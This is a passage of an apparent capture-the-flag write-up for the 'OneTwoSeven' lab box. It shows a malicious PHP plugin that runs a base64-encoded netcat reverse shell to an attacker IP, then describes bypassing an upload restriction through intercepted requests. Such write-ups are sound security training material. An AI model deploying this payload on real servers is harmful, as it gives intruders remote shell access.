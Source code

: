 - We downloaded one of the plugin and they look like this

![https://raw.githubusercontent.com/csenox/csenox.github.io/master/img/OneTwoSeven%20Box%20fc8aac5cb7804d6d89117815efd54475/Untitled%2027.png](https://raw.githubusercontent.com/csenox/csenox.github.io/master/img/OneTwoSeven%20Box%20fc8aac5cb7804d6d89117815efd54475/Untitled%2027.png)

- We created our own plugin that gives us a reverse shell

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /login.php"); }; if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };
# OneTwoSeven Admin Plugin
# OTS File Systems
echo shell_exec('echo "bmMgLWUgL2Jpbi9zaCAxMC4xMC4xNC4yOSA0NDQ0"|base64 -d|bash');
?>
```

- So addon-upload.php is restricted but we can access it through addon-download.php

![https://raw.githubusercontent.com/csenox/csenox.github.io/master/img/OneTwoSeven%20Box%20fc8aac5cb7804d6d89117815efd54475/Untitled%2028.png](https://raw.githubusercontent.com/csenox/csenox.github.io/master/img/OneTwoSeven%20Box%20fc8aac5cb7804d6d89117815efd54475/Untitled%2028.png)

⇒ Now first lets intercept the upload post request we get to addon-upload.php and send it to repeater. Then we can copy the request parts to the above request 

- Addon-Upload.php post request

![https://raw.githubusercontent.com/csenox/csenox.github.io/master/img/OneTwoSeven%20Box%20fc8aac5cb7804d6d89117815efd54475/Untitled%2029.png](https://raw.githubusercontent.com/csenox/csenox.github.io/master/img/OneTwoSeven%20Box%20fc8aac5cb7804d6d89117815efd54475/Untitled%2029.png)
